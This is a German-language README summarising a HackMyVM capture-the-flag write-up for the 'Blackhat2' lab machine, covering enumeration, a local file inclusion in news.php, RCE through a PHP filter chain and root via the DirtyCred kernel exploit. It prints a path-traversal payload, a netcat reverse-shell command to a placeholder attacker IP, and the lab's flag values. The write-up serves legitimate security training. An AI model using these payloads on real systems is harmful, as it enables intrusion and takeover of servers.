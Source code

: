 # Blackhat2 - HackMyVM Writeup

![Blackhat2 VM Icon](Blackhat2.png)

Dieses Repository enthält das Writeup für die HackMyVM-Maschine "Blackhat2" (Schwierigkeitsgrad: Medium), erstellt von DarkSpirit. Ziel war es, initialen Zugriff auf die virtuelle Maschine zu erlangen und die Berechtigungen bis zum Root-Benutzer zu eskalieren.

## VM-Informationen

*   **VM Name:** Blackhat2
*   **Plattform:** HackMyVM
*   **Autor der VM:** DarkSpirit
*   **Schwierigkeitsgrad:** Medium
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Blackhat2](https://hackmyvm.eu/machines/machine.php?vm=Blackhat2)

## Writeup-Informationen

*   **Autor des Writeups:** Ben C.
*   **Datum des Berichts:** 02. Mai 2024
*   **Link zum Original-Writeup (GitHub Pages):** [https://alientec1908.github.io/Blackhat2_HackMyVM_Medium/](https://alientec1908.github.io/Blackhat2_HackMyVM_Medium/)

## Kurzübersicht des Angriffspfads

Der Angriff auf die Blackhat2-Maschine umfasste die folgenden Schritte:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.118` unter dem Hostnamen `blackhat2.hmv`) mittels `arp-scan`.
    *   Ein `nmap`-Scan offenbarte zwei offene Ports: SSH (22, OpenSSH 9.2p1) und HTTP (80, Apache 2.4.57, Titel "Home - Hacked By sML").
2.  **Web Enumeration:**
    *   `nikto` und `dirb`/`gobuster` wurden zur Enumeration des Webservers auf Port 80 eingesetzt.
    *   Wichtige Funde waren `index.php`, `news.php` und Verzeichnisse wie `2021`, `2022`, `2023`. Nikto wies auf ein unsicheres `PHPSESSID`-Cookie bei `news.php` hin.
3.  **Vulnerability Analysis (LFI/RCE):**
    *   `sqlmap` auf den `year`-Parameter von `news.php` schlug fehl, SQL-Injection war hier nicht der Weg.
    *   `wfuzz` wurde verwendet, um weitere GET-Parameter für `news.php` zu finden und identifizierte `email` als relevanten Parameter.
    *   Eine Local File Inclusion (LFI)-Schwachstelle wurde im `year`-Parameter von `news.php` entdeckt (`news.php?year=../../../../../../../etc/passwd`).
    *   Um RCE zu erlangen, wurde das Tool `php_filter_chain_generator.py` verwendet, um einen Payload für den `php://filter`-Wrapper zu erstellen. Das Ziel war die Ausführung von ``.
4.  **Initial Access (RCE via PHP Filter Chain):**
    *   Die generierte PHP-Filterkette wurde im `year`-Parameter von `news.php` verwendet, zusammen mit einem `&cmd=`-Parameter, um Befehle auszuführen.
    *   Mit `cmd=id` wurde RCE als `www-data` bestätigt.
    *   Eine Netcat-Reverse-Shell (`cmd=nc -e /bin/bash [ATTACKER_IP] [PORT]`) wurde erfolgreich initiiert, was zu einer Shell als `www-data` führte.
5.  **Privilege Escalation (Kernel Exploit - DirtyCred):**
    *   Als `www-data` wurden grundlegende Enumerationsschritte durchgeführt.
    *   Der Kernel-Exploit `ExploitGSM` (wahrscheinlich für CVE-2022-2588, "DirtyCred") wurde von GitHub geklont, kompiliert und auf das Zielsystem übertragen.
    *   Die Ausführung von `./ExploitGSM` im `/tmp`-Verzeichnis führte erfolgreich zur Privilegieneskalation zu `root`.
6.  **Flags:**
    *   Die User-Flag (`/home/sml/user.txt`) wurde als `root` gelesen.
    *   Die Root-Flag (`/root/root.txt`) wurde als `root` gelesen.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `nikto`
*   `dirb`
*   `gobuster`
*   `sqlmap`
*   `curl`
*   `wfuzz`
*   `ffuf` (im Text, aber evtl. Verwechslung mit wfuzz)
*   `python3` (Filter Chain Generator, HTTP Server)
*   `nc` (netcat)
*   `ls`
*   `git`
*   `cmake`
*   `make`
*   `wget`
*   `chmod`
*   `cat`
*   `grep`
*   `dmesg`
*   `sysctl`
*   `linpeas.sh`
*   `pspy64`
*   `ExploitGSM` (DirtyCred Exploit)

## Identifizierte Schwachstellen (Zusammenfassung)

*   **Local File Inclusion (LFI):** Der `year`-Parameter in `news.php` war anfällig für LFI, was das Auslesen beliebiger Dateien ermöglichte.
*   **Remote Code Execution (RCE) via PHP Filter Chain:** Die LFI-Schwachstelle konnte mittels einer komplexen PHP-Filterkette und dem `php://filter`-Wrapper zu RCE eskaliert werden.
*   **Veralteter Linux-Kernel (Version 6.1.0-18):** Anfällig für den "DirtyCred"-Exploit (CVE-2022-2588), der eine Privilegieneskalation von `www-data` zu `root` ermöglichte.

## Flags

*   **User Flag (`/home/sml/user.txt`):** `156532dab679edf6f8e53c8787a09264`
*   **Root Flag (`/root/root.txt`):** `30f55e2f86961a07e3a181a82f602ed6`

---

**Wichtiger Hinweis:** Dieses Dokument und die darin enthaltenen Informationen dienen ausschließlich zu Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Techniken und Werkzeuge sollten nur in legalen und autorisierten Umgebungen (z.B. eigenen Testlaboren, CTFs oder mit expliziter Genehmigung) angewendet werden. Das unbefugte Eindringen in fremde Computersysteme ist eine Straftat und kann rechtliche Konsequenzen nach sich ziehen.

---
*Bericht von Ben C. - Cyber Security Reports*
